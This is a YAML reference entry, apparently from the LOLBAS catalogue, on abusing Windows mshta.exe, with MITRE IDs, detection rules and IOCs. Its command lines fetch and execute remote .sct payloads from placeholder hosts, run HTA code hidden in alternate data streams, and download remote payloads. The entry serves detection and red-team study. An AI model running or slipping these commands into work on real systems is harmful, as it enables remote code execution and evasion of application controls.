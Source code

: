 ```yaml
---
Name: Mshta.exe
Description: Used by Windows to execute html applications. (.hta)
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https://webserver/payload.sct"")"))
    Description: Executes VBScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe javascript:a=GetObject("script:https://webserver/payload.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code hidden in alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 (Does not work on 1903 and newer)
  - Command: mshta.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\mshta.exe
  - Path: C:\Windows\SysWOW64\mshta.exe
Code_Sample:
  - Code: https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/05c58b4892942c34bfa01e9ada88ef2663858e1c/rules/windows/process_creation/win_susp_mshta_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_invoke_obfuscation_via_use_mhsta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_lethalhta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/f4ac416ef44862930730f8b7f16362b0e987bc71/rules/windows/process_creation/win_shell_spawn_mshta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff0f1a0222b5100120ae3e43df18593f904c69c0/rules/windows/process_creation/win_mshta_javascript.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/file_event/sysmon_susp_clr_logs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/image_load/sysmon_susp_script_dotnet_clr_dll_load.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f8f643041a584621e66cf8e6d534ad3db92edc29/rules/windows/defense_evasion_mshta_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/lateral_movement_dcom_hta.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/stories/suspicious_mshta_activity.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_renamed.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_spawn.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_url_in_command_line.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: mshta.exe executing raw or obfuscated script within the command-line
  - IOC: General usage of HTA file
  - IOC: msthta.exe network connection to Internet/WWW resource
  - IOC: DotNet CLR libraries loaded into mshta.exe
  - IOC: DotNet CLR Usage Log - mshta.exe.log
Resources:
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

